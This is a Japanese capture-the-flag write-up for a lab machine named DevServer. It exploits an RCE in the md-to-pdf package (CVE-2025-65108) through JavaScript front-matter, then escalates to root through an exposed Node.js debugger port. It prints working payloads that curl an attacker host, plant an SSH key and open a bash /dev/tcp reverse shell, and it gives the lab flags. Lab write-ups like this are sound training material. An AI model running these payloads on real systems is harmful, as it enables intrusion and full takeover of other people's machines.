


# DevServer

## ミッション1 user.txt の提出

### 1. Nmapによる列挙

ターゲットに対して Nmap でポートスキャンを実施します。その結果、22 番と 3000 番のポートが開いていることが分かります。

```
┌──(kali㉿kali)-[~]
└─$ nmap -p- <target_ip>
Starting Nmap 7.99 ( https://nmap.org ) at 2026-07-07 16:18 +0900
Nmap scan report for 10.30.10.100
Host is up (0.0000020s latency).
Not shown: 65533 closed tcp ports (reset)
PORT     STATE SERVICE
22/tcp   open  ssh
3000/tcp open  ppp
MAC Address: F6:13:83:D5:36:8B (Unknown)

Nmap done: 1 IP address (1 host up) scanned in 0.43 seconds
```

3000 番ポートは Web アプリケーションを開発する際に使われることが多いため、Web ブラウザから 3000 番ポートにアクセスしてみます。

その結果、以下の画像に示すように、Markdown を PDF に変換するための Web アプリケーションが表示されます。



### 2. Web アプリケーションの調査

この Web アプリケーションを調査すると、Node.js のパッケージである [md-to-pdf](https://www.npmjs.com/package/md-to-pdf) を使用して変換しているとの記述が注釈にあります。



この情報を元にして `md-to-pdf vulnerability` などのワードで md-to-pdf に脆弱性がないか検索すると、CVE-2025-65108 の情報が出てきます。この脆弱性は、細工された front-matter 付きの Markdown を変換させることで、RCE を引き起こせる脆弱性です。

### 3. 脆弱性の有無の確認

この脆弱性は、バージョンが `5.2.5` 以下の場合に有効ですが、Web アプリケーション上には使用中のバージョンは記載されていません。

そこで、バージョンを直接特定するのではなく、PoC を実行して任意コードが実行されるかを直接検証します。PoC の実行が攻撃用マシン側から観測できれば、対象のバージョンが脆弱なバージョンであるとみなせます。

まず、PoC の実行結果を観測するために、攻撃用マシンで Web サーバを立てます。

```
┌──(kali㉿kali)-[~]
└─$ python -m http.server
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
```

次に、公開されている [PoC](https://github.com/advisories/GHSA-547r-qmjm-8hvw) を参考に、攻撃用マシンに対して HTTP リクエストを送るコードが含まれる Markdown を作成します。

```js
---javascript
require("child_process").execSync("curl http://<attacker_ip>:8000/CVE-2025-65108")
---
```

上記の Markdown を Web アプリケーションに入力し、`PDFに変換してダウンロード` を押して変換を実行します。

その結果、ターゲットから攻撃用マシンに対してリクエストが送られてくることを確認できます。

```
┌──(kali㉿kali)-[~]
└─$ python -m http.server
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
<target_ip> - - [07/Jul/2026 16:45:49] code 404, message File not found
<target_ip> - - [07/Jul/2026 16:45:49] "GET /CVE-2025-65108 HTTP/1.1" 404 -
```

このリクエストは PoC 内の JavaScript が実行された結果であり、RCE が成立したことを意味します。したがって、Web アプリケーションで使用されている md-to-pdf は CVE-2025-65108 の影響を受けるバージョンであると確認できます。

### 4. SSH でのアクセス

これまでの手順では、Markdown を変換するたびに 1 つのコマンドを実行できるだけで、ファイル探索や権限昇格のような対話的な操作には向きません。そこで、対話的に操作できるように、SSH でログインできる状態を整えます。

なお、本 Writeup では SSH を使用してシェルを取得する方法を解説しますが、リバースシェルを取得する方法でも問題ありません。

Nmap の結果から、ターゲットでは 22 番ポートで SSH が動いていることが分かっています。したがって、コード実行を通じてターゲット側の `~/.ssh/authorized_keys` に攻撃用マシンの公開鍵を追記できれば、SSH でログインできるようになります。

まず、攻撃用マシンで鍵ペアを生成します。

```
┌──(kali㉿kali)-[~]
└─$ ssh-keygen -t ed25519 -f ~/.ssh/pentest -N ""
```

続いて、コード実行がどのユーザ権限で動いているかを確認するため、`3. 脆弱性の有無の確認` と同様の方法で `whoami` の結果を攻撃用マシンに送信させます。

```
┌──(kali㉿kali)-[~]
└─$ python -m http.server
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
```

```js
---javascript
require("child_process").execSync("curl http://<attacker_ip>:8000/$(whoami)")
---
```

攻撃用マシン側の HTTP サーバのアクセスログから、コード実行が `mark` 権限で行われていることが分かります。

```
<target_ip> - - [07/Jul/2026 16:50:12] "GET /mark HTTP/1.1" 404 -
```

続いて、`mark` の `~/.ssh/authorized_keys` に攻撃用マシンの公開鍵を追記します (`<pubkey>` には `~/.ssh/pentest.pub` の内容を指定してください)。

```js
---javascript
require("child_process").execSync("mkdir -p ~/.ssh && chmod 700 ~/.ssh && echo '<pubkey>' >> ~/.ssh/authorized_keys && chmod 600 ~/.ssh/authorized_keys")
---
```

追記できたら、攻撃用マシンから SSH でログインします。

```
┌──(kali㉿kali)-[~]
└─$ ssh -i ~/.ssh/pentest mark@<target_ip>

mark@dev-server:~$
```

これで、`mark` としてシェルを取得できました。

### 5. user.txt の確認

ログイン先はそのまま `mark` のホームディレクトリなので、`user.txt` を確認できます。したがって解答は、`flag{md_t0_pdf_md_t0_rc3}` となります。

```txt
mark@dev-server:~$ ls
user.txt

mark@dev-server:~$ cat user.txt
flag{md_t0_pdf_md_t0_rc3}
```

### 補足

本 Writeup では比較的簡単な CVE-2025-65108 を使用して初期侵入を行う手法を解説していますが、front-matter を自由に設定できるため、他の方法でも初期侵入を行うことは可能です。

## ミッション2 root.txt の提出

### 1. ターゲットの探索

続いて権限昇格を行うため、マシンの内部に対する列挙を行います。

ターゲット内で動いているプロセスを確認すると、root 権限で動いているものは以下の 5 つであることが分かります。

```txt
mark@dev-server:~$ ps aux
USER         PID %CPU %MEM    VSZ   RSS TTY      STAT START   TIME COMMAND
root           1  0.0  0.0   1064   752 ?        Ss   08:19   0:00 /sbin/docker-init -- /entrypoint.sh
root           7  0.0  0.0   5832  3480 ?        S    08:19   0:00 runuser -u mark -- npm start --prefix /app/md-to-pdf-front
root          18  0.0  0.0  12028  4240 ?        Ss   08:19   0:00 sshd: /usr/sbin/sshd [listener] 0 of 10-100 startups
root          19  0.0  0.0   2808   900 ?        S    08:19   0:00 /bin/sh /entrypoint.sh
root          20  0.0  0.2 1424352 44956 ?       Sl   08:19   0:00 node --inspect /app/cleanup/chromium-reaper.js
...(snip)...
```

この中で以下のプロセスに着目します。

```txt
node --inspect /app/cleanup/chromium-reaper.js
```

Node.js で `--inspect` オプションをつけて実行すると、デバッグクライアントからの接続を待ち受けるようになります。ホストやポートを指定できますが、何も指定しなかった場合のデフォルトは `127.0.0.1:9229` です。念のため、使用されているポートを確認すると、9229 番ポートが使用されていることが分かります。

```txt
mark@dev-server:~$ ss -altpn | grep 9229
LISTEN 0      511        127.0.0.1:9229       0.0.0.0:*
```

このデバッグ接続には認証がなく、接続できたクライアントは対象プロセスの権限で任意の JavaScript を評価できるため、対象プロセスの権限で任意のコマンドを実行できます。

### 2. 権限昇格

`node inspect <ip>:<port>` コマンドで、先ほど発見したプロセスに接続できます。

```txt
mark@dev-server:~$ node inspect 127.0.0.1:9229
connecting to 127.0.0.1:9229 ... ok
debug>
```

`debug>` プロンプトでは、`exec("<javascript>")` を実行すると、指定した JavaScript のコードを接続先プロセスのコンテキストで評価できます ([参考](https://nodejs.org/api/debugger.html))。ここで、`process.mainModule.require('child_process').exec('<command>')` や `process.mainModule.require('child_process').execSync('<command>')` を評価することで、任意のコマンドを実行できます ([参考](https://hacktricks.wiki/ja/linux-hardening/software-information/electron-cef-chromium-debugger-abuse.html))。

試しに `id` コマンドを実行してみます。
```
debug> exec("process.mainModule.require('child_process').execSync('id').toString()")
'uid=0(root) gid=0(root) groups=0(root)\n'
```

リバースシェルを取得します。

まず、攻撃用マシンで待ち受けます。
```txt
┌──(kali㉿kali)-[~]
└─$ nc -lnvp <port>
listening on [any] <port> ...
```

その後、デバッグクライアント内で以下のコマンドを実行し、攻撃用マシンに接続します。
```
debug> exec("process.mainModule.require('child_process').execSync('/bin/bash -c \"bash -i >& /dev/tcp/<attacker_ip>/<port> 0>&1\"')")
```

リバースシェル取得後に、攻撃用マシンで `whoami` を実行すると、`root` ユーザとなっているため、`/root/root.txt` を読み取ることができます。

したがって解答は、`flag{d3bug_p0r7_l3f7_0p3n}` となります。


```txt
┌──(kali㉿kali)-[~]
└─$ nc -lnvp <port>
listening on [any] <port> ...
connect to [<attacker_ip>] from (UNKNOWN) [<target_ip>] 35598
bash: cannot set terminal process group (1): Inappropriate ioctl for device
bash: no job control in this shell
root@dev-server:/app/cleanup# whoami
whoami
root
root@dev-server:/app/cleanup# cat /root/root.txt
cat /root/root.txt
flag{d3bug_p0r7_l3f7_0p3n}
```

なお、本 Writeup ではリバースシェル取得後に `root.txt` を読み取っていますが、以下のように直接読み取ることも可能です。

```
debug> exec("process.mainModule.require('child_process').execSync('cat /root/root.txt').toString()")
'flag{d3bug_p0r7_l3f7_0p3n}\n'
```